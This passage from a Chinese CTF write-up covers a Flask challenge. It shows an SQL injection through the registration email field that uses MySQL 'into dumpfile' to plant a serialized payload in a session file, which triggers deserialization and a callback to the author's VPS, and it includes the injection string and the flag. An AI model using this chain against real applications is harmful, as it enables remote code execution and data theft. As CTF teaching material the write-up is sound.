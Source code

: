 同时根据`config.py`:
```
SQLALCHEMY\_DATABASE\_URI = "mysql://root:password@localhost/flask?charset=utf8"
SESSION\_FILE\_DIR = "/tmp/ffff"
```
可以知道session文件的保存路径在`/tmp/ffff`，以及用户为root，因此具有文件导出的权限的可能性很大。

流程

结合`Python is the best language 1`中的sql注入漏洞，我们梳理出如下的攻击流程：

+ 1.  本地生成序列化文件，并且进行十六进制编码
+ 2.  通过sql注入漏洞outfile出session文件
+ 3.  访问index，同时带上session文件对应的session值，触发`open_session`中的`self.cache.get`，进行反序列化攻击

假设前面生成的序列化文件存在于`/tmp/ffff/chybeta`，建议使用mysql的hex转码来进行十六进制的转换:
```
mysql> select hex(load_file('/tmp/ffff/chybeta')) into outfile '/tmp/ffff/exp';
Query OK, 1 row affected (0.00 sec)
```
![](https://xianzhi.aliyun.com/forum/media/upload/picture/20180325210627-54001108-302d-1.jpeg)

以使用`675b6ec7-95bd-411f-a59d-4c3dbchybeta`作为cookie为例，则其session文件存在于`/tmp/ffff/78f634977cbacf167dfd9656fe9dd5f3`

在十六进制的序列化串前面添加`0x`，构造邮箱处的注入点：
```
select id from user where email = 'test'/**/union/**/select/**/0x63636F6D6D616E64730A../**/into/**/dumpfile/**/'/tmp/ffff/78f634977cbacf167dfd9656fe9dd5f3'#@test.com'
```
也即在注册的邮箱处填入：

    test'/**/union/**/select/**/0x63636F6D6D616E64730A.../**/into/**/dumpfile/**/'/tmp/ffff/78f634977cbacf167dfd9656fe9dd5f3'#@test.com

点击submit后出现`Please use a different email address.`。

接着在burp中抓取访问index的包，并修改cookie为`675b6ec7-95bd-411f-a59d-4c3dbchybeta`，在自己的vps上监听对应的端口：

![](https://xianzhi.aliyun.com/forum/media/upload/picture/20180325210556-416f6304-302d-1.jpeg)

flag：QWB{pyth0n1s1ntere3t1ng}

总结:

*   wtforms.validators的Email类验证不完善
*   flask的session处理机制
*   python沙箱逃逸
*   python反序列化漏洞
*   一点“小小”的脑洞

Refference:

*   [P师傅：Python库WTForm过滤不严导致URLXSS漏洞](http://bugs.leavesongs.com/PYTHON/Python%E5%BA%93WTForm%E8%BF%87%E6%BB%A4%E4%B8%8D%E4%B8%A5%E5%AF%BC%E8%87%B4URLXSS%E6%BC%8F%E6%B4%9E/)